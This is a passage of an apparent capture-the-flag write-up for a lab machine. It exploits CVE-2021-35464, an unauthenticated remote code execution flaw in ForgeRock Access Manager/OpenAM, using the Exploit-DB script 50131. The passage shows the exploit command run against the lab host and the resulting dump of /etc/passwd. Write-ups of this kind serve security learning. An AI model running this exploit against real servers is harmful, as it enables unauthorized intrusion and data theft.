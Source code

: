 The vulnerability is `ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)` or [https://www.exploit-db.com/exploits/50131](https://www.exploit-db.com/exploits/50131) from exploit.db

![CVE-2021-35464](/assets/images/htbbiz2021-manager/exploit-db.png)

Copy the python exploit to our directory 
```bash
$ searchploit -m java/webapps/50131.py
```

# Gaining Access
We can run exploit to get information about `/etc/passwd` using command `python3 50131.py -c 'cat /etc/passwd' http://manager.htb:8080/openam`.
```bash
$ python3 50131.py -c 'cat /etc/passwd' http://manager.htb:8080/openam
[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "cat /etc/passwd" now:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```